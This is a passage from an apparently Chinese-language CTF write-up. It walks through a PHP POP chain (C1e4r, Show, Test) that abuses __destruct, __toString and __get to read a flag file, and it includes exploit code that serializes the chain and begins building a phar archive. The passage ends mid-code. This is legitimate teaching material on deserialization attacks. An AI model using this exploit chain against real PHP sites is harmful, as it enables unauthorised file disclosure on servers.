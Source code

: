 在C1e4r中又打印函数，我们需要利用它，那么思路就很明确了，通过new Cle4r（$name），将值传给str，然后自动触发__destruct(),打印test。

说明下一步要考虑name应该传什么

从Test类中我们可以发现，__get(\$key)=>get(\$key)=>file_get(\$value)这样一条利用链,\$key的值,是触发\_\_get时传入的\$value的值是通过params(\$key)得到的，所以不妨令params=array(“source”=>“f1ag.php”),然后我们传入$key=“1”,即可

下一步思考怎么触发__get

```
public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }

```

令str[‘str’] = new Test(),那么在toString()就是new Test()->source,而source不是Test中的属性，所以就可以触发到get

上面的key之所以为source，是因为这里的new Test()->source调用的就是source不存在属性，这个source被当做参数传了过去

__toString(),反序列化中的魔术方法，当类被当做字符串输出的时候会自动调用toString()方法

令$this->source=new Show()它自身

那么到现在整个pop链条就清晰明了

```
<?php

class C1e4r
{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array('source'=>'/var/www/html/f1ag.php');
    }

}
$c = new C1e4r();
$s=new Show();
$t =new Test();
$s->source=$s;
$s->str['str']=$t;
$c->str=$s;
echo(serialize($c));


$phar = new Phar("exp.phar"); //.phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >'); //固定的
```